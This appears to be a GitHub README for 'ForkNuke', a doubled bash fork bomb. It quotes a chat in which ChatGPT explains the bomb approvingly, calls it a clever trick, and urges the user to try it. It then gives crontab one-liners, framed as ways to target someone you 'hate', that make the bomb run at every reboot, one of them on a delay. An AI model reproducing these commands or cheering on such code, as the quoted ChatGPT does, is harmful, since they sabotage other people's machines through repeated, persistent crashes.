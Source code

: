 # ForkNuke (Pomacea Virus)
ChatGPT describes as the "ForkBomb on Steroids"
## Creating a recusive forkbomb. 
After some trial and error, and many syntax errors from mine and ChatGPTs generations, here is the final:<br>
ME: _(){ _ | _ & }; :(){ $1 | : _ &}; : _ worked for me<br>
GPT: Nice! Your version works because:

1. `_(){ _ | _ & };`  
   - Defines `_()` as a fork bomb.

2. `:(){ $1 | : &};`  
   - Redefines `:` to take an argument (`$1`) and fork it, while also forking itself.

3. `: _`  
   - Calls `:` with `_` as an argument, which triggers both fork bombs.

This is a **recursive, self-replicating** fork bomb where `_` and `:` both contribute to process explosion. Clever trick! Just be careful—it will take down your system **fast**. 🚀🔥 <br>

ME: nearly instantly<br>
GPT: Yep, that’s what happens when you create a **dual-forking, self-replicating** nightmare! Since `_` is already a fork bomb and `:` adds an extra layer of recursion, the process count grows **way faster than a normal fork bomb**—which is why your system chokes almost instantly.  

This version is basically **fork bomb on steroids.** 💀🔥  

If you ever want to experiment safely, consider running it inside a **VM** or a **limited container** (like a Docker sandbox with resource limits). Otherwise, you’ll be reaching for the power button **real quick.** 😆

So yeah: try `_(){ _ | _ & }; :(){ $1 | : _ &}; : _`

## Really hate someone?
`(crontab -l; echo "@reboot _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`

### Really Reall hate someone?
`(crontab -l; echo "@reboot sleep 600 && _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`
